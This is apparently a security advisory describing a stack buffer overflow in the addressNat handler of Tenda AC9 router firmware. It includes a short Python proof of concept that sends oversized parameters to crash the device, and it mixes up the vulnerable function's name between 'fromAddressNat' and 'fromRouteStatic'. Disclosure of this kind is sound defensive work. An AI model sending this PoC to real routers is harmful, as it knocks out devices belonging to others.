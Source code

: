 # Tenda Router AC9 Vulnerability
This vulnerability lies in the `/goform/addressNat` page which influences the lastest version of Tenda Router AC9. (The latest version is [AC9V3.0_V15.03.06.42_multi](https://www.tenda.com.cn/download/detail-2908.html))
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `fromAddressNat`.

In function `fromRouteStatic` it reads 2 user provided parameters `entrys` and `mitInterface` into `v9` and `v8`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/171/vlun.png)

So by requesting the page `/goform/addressNat`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/addressNat?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
